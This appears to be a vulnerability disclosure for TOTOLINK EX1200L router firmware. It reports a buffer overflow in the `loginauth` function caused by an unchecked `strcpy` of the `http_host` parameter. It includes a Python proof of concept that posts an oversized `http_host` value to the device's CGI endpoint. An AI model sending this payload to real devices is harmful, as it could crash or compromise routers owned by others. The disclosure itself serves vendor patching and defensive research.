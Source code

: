 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/217/ids/36.html

## Affected version

EX1200L_Firmware V9.3.5u.6146_B20201023

## Vulnerability details

In the EX1200L_Firmware V9.3.5u.6146_B20201023 firmware has a buffer overflow vulnerability in the `loginauth` function. The `v8` variable receives the `http_host` parameter from a POST request. However, since the user can control the input of `http_host`, the statement `strcpy(v26, v8);` can cause a buffer overflow injection vulnerability.

![image-20240719101917489](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719101917489.png)

![image-20240719101821295](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719101821295.png)

![image-20240719101834445](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719101834445.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"username":"admin","password":"admin","http_host":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa","verify":"0","flag":"0","topicurl":"loginAuth"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240720235644369](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240720235644369.png)
